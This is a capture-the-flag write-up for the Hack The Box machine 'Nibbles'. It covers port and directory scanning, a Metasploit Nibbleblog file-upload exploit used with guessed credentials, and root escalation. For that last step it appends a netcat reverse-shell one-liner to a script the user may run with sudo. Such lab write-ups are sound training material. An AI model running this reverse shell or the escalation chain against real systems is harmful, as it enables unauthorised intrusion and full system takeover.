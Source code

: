 # Nibbles | HTB
### Difficulty Level: Easy
-------------------------------

Let's start with nmap scan to find open ports and services within the system:

```bash
nmap -p- -T4 -A 10.10.10.75 -oN nibbles.nmap
```

-p- scans all ports instead the 1000 common ports scan defaultivy way.

-T4  - increase the spped of the scan.

-A  - aggressive scan to gather more information about the system.

-oN - saves the output to a file.


Results:

```bash
Nmap scan report for 10.10.10.75
Host is up (0.12s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=3/18%OT=22%CT=1%CU=33777%PV=Y%DS=2%DC=T%G=Y%TM=65F8
OS:88D9%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=10D%TI=Z%II=I%TS=8)SEQ(S
OS:P=100%GCD=1%ISR=10D%TI=Z%CI=I%II=I%TS=8)SEQ(SP=101%GCD=1%ISR=10C%TI=Z%II
OS:=I%TS=8)SEQ(SP=102%GCD=1%ISR=10C%TI=Z%TS=8)OPS(O1=M53CST11NW7%O2=M53CST1
OS:1NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W1=71
OS:20%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M5
OS:3CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4
OS:(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%
OS:F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%
OS:T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%R
OS:ID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   230.60 ms 10.10.14.1
2   230.77 ms 10.10.10.75

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 515.57 seconds
```

I'll try to find any intersting directory within the system with:

```bash
└─# gobuster dir -u http://10.10.10.75 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

-u - the traget url.

-w - the wordlist to scan the system with.

While scanning, I navigated to the address within the browser. I decided to view the source code.


![image](https://cdn-images-1.medium.com/max/1000/1*byJhHlMqipaqplu6OGRR3w.png)


It sends us to /nibbleblog/.


![image](https://cdn-images-1.medium.com/max/1000/1*bXNAX8k7NVW5eWed7Iu8nw.png)


The previous gobuster scan didn't find any directory, but after we found the blog, let's scan another time but with the /nibbleblog/.

Results:

![image](https://cdn-images-1.medium.com/max/1000/1*8W4FF3LwC2N5AqNdcplJKA.png)


After traveling betweem the directories within /admin, I didn't find anything there. 
But there is README file that includes the version of the nibbleblog service.


![image](https://cdn-images-1.medium.com/max/1000/1*Sw-slPkN3-mQNnwhOMbfnw.png)


Let's check if this service at that version is vulnerable.

```bash
searchsploit nibbleblog   
----------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                               |  Path
----------------------------------------------------------------------------- ---------------------------------
Nibbleblog 3 - Multiple SQL Injections                                       | php/webapps/35865.txt
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)                        | php/remote/38489.rb
----------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

Use metasploit to try the Arbitrary File Upload, but after I use "options" to understand what info I need to provide 
to run the exploit, it demends username and password. At that moment, I don't have any credentials.

After some research I found a github that includes the exploit with an example how to use it:

https://github.com/dix0nym/CVE-2015-6967


![image](https://cdn-images-1.medium.com/max/1000/1*3AEzPOCvVD08Rq76Zpms4Q.png)


I decided to provide the path, username and password (it can be default credentials). and then I got meterpreter shell!

On metasploit:

```bash
set lhost <your-ip>

set rhost <target-machine>

set targeturi /nibbleblog/

run

```


![image](https://cdn-images-1.medium.com/max/1000/1*B4Bn9ppeAtkNYmhTibOJrA.png)


Stabilized the shell with:

```bash

python3 -c 'import pty; pty.spawn("/bin/bash")'

```

![image](https://cdn-images-1.medium.com/max/1000/1*QDLymSfm1yv52sq-R4ZXNg.png)

There is zip file maybe there is something:



```bash
unzip personal.zip
```

and there is a script "monitor.sh". Let's check if can we run files as root with:

```bash
sudo -l
```

![image](https://cdn-images-1.medium.com/max/1000/1*2NeIv8555jTiQxE-C9Qk6w.png)


Because we know that this file can run as root so let's upload a reverse shell payload to the file:

```bash
echo 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <tun-0> 2222 >/tmp/f' >> monitor.sh    
```

Set netcat listener on your machine:

```bash
nc -lnvp 2222
```

then run monitor.sh :

```bash
sudo /home/nibbler/personal/stuff/monitor.sh
```

and there is reverse shell as root:


![image](https://cdn-images-1.medium.com/max/1000/1*tYtmcGedyOT67-_N1pG50w.png)


grab /root/root.txt

and this is it for now.


***Written by Alon Presman, Penetration Tester and Ethical Hacker.***
























































































